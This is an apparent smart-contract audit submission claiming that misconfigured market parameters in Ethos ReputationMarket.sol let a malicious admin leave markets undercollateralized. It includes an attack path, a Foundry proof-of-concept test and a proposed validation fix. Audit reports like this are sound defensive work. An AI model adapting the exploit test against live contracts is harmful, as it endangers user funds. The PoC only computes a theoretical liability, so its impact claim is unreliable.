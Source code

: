 Fun Crepe Lobster

High

# Malicious admins will drain protocol funds through misconfigured market parameters

### Summary

Improper validation of market configuration parameters will cause fund drainage vulnerability for the protocol as malicious or compromised admins will create markets with insufficient collateralization through parameter manipulation.

### Root Cause

In [ReputationMarket.sol:L242-L246](https://github.com/sherlock-audit/2024-12-ethos-update/blob/8d00c21b26274a75c47318f2dbacd9a40742034e/ethos/packages/contracts/contracts/ReputationMarket.sol#L242-L246) the validation checks for market configuration parameters do not ensure proper collateralization ratio between creation cost and maximum possible market liability.

### Internal Pre-conditions

1. Admin needs to call addMarketConfig() to set liquidity to be exactly 100
2. Admin needs to set basePrice to be exactly MINIMUM_BASE_PRICE
3. Admin needs to set creationCost to be less than maxVotes * basePrice
4. Market needs to be active (not paused)

### External Pre-conditions

1. Admin account needs to be compromised or malicious
2. Network gas cost need to be low enough for profitable exploitation

### Attack Path

1. Malicious admin adds new market config with minimum allowed parameters
2. Admin sets extremely low creation cost relative to potential market size
3. Users create markets with minimal collateralization
4. Users can buy maximum votes allowed by LMSR formula
5. Protocol becomes undercollateralized

### Impact

The protocol suffers an approximate loss of up to (maxVotes * basePrice - creationCost) ETH per market. In the demonstrated configuration, markets require only 0.01 ETH collateral but can accumulate 1 ETH in liabilities.

### PoC

pragma solidity 0.8.26;

import {ReputationMarket} from "./ReputationMarket.sol";
import {Test} from "forge-std/Test.sol";

contract MarketConfigExploit is Test {
    ReputationMarket public market;
    address public admin = address(0x1);
    address public user = address(0x2);
    
    function setUp() public {
        // Deploy and setup market
        market = new ReputationMarket();
        market.initialize(
            address(this), // owner
            admin,         // admin
            address(0),    // signer
            address(0),    // verifier
            address(this)  // contract manager
        );
        
        // Fund user
        vm.deal(user, 1 ether);
    }
    
    function testConfigurationExploit() public {
        // Step 1: Admin adds dangerous config
        vm.startPrank(admin);
        
        uint256 minLiquidity = 100;
        uint256 minBasePrice = market.MINIMUM_BASE_PRICE();
        uint256 lowCreationCost = 0.01 ether;
        
        uint256 configIndex = market.addMarketConfig(
            minLiquidity,
            minBasePrice,
            lowCreationCost
        );
        
        // Step 2: Create market with minimal collateral
        vm.startPrank(user);
        market.createMarketWithConfig{value: lowCreationCost}(configIndex);
        
        // Calculate maximum market liability
        uint256 maxVotes = minLiquidity * 133; // LMSR limit
        uint256 maxLiability = maxVotes * minBasePrice;
        
        console.log("Market parameters:");
        console.log("Creation cost:", lowCreationCost);
        console.log("Max liability:", maxLiability);
        console.log("Collateralization ratio:", (lowCreationCost * 100) / maxLiability, "%");
        
        // Verify undercollateralization
        assertTrue(maxLiability > lowCreationCost, 
            "Market should be undercollateralized");
    }
}

### Mitigation

function addMarketConfig(
    uint256 liquidity,
    uint256 basePrice,
    uint256 creationCost
) public onlyAdmin whenNotPaused returns (uint256) {
    // Existing checks...
    
    // Calculate maximum market liability
    uint256 maxVotes = liquidity * 133; // LMSR limit
    uint256 maxLiability = maxVotes * basePrice;
    
    // Require minimum 150% collateralization
    require(
        creationCost * 100 >= maxLiability * 150,
        "Insufficient collateralization ratio"
    );
    
    // Rest of the function...
}